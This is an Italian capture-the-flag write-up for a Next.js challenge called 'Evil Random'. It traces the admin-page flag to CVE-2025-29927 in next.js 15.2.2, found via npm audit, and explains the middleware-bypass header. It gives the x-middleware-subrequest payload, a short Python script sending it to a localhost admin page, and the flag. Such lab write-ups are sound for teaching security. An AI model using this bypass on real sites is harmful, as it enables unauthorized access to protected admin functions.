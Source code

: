 # Evil Random (`evilrandom`)

Generare parole casuali non è mai stato così facile!
Mi hanno detto che l'admin può anche aggiungerne altre, ma non so la password...

http://localhost:8003

#

La challenge espone un sito web che 'genera' parole casuali estraendole da un file di testo, scritta con `next.js`.

Analizzando attentamente il progetto non si trovano problemi evidenti, ed in effetti la vulnerabilità **non** si trova nel codice.
Il problema è proprio la versione utilizzata di `next.js`, la `15.2.2`.
```
{
  "name": "evilrandom",
  "version": "0.1.0",
  "private": true,
  "scripts": {
    "dev": "next dev --turbopack",
    "build": "next build",
    "start": "next start",
    "lint": "next lint"
  },
  "dependencies": {
    "cookie": "^1.0.2",
    "next": "15.2.2",
    "react": "^19.0.0",
    "react-dom": "^19.0.0"
  }
}

```

Questa versione è vulnerabile a [CVE-2025-29927](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware) (scoperto circa 3 mesi fa).
Per accorgersene ci sono diversi modi, quello più semplice è provare a buildare con `npm` il progetto in locale:

![vuln](vuln.png)

E riconoscere la vulnerabilità con `npm audit`.

![audit](audit.png)

A questo punto sappiamo che il CVE ci permette di **bypassare** l'autenticazione del **middleware**, e di accedere alla pagina dell'admin, dove c'è la flag.
Per farlo si trovano diverse guide online, ma sostanzialmente l'exploit si basa sull'utilizzo scorretto di un header `x-middleware-subrequest`, che avrebbe l'intento di evitare richieste ricorsive infinite fatte dal middleware, skippandolo quando ce ne sono più di 5 (più dettagli [qua](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)).


A questo punto, basterà fare una richiesta con questo header e 5 "finte" richieste:
`"x-middleware-subrequest" : "middleware:middleware:middleware:middleware:middleware"`

```python
import requests
h = "middleware:middleware:middleware:middleware:middleware"
r = requests.get("http://localhost:8003/admin", headers={"x-middleware-subrequest": h}, allow_redirects=False)
print(r.text)
```

Flag: `rossiCTF{m1dDl3W4r3_Byp4Ss_h3ll_y3ahHh!!_7dc19f}`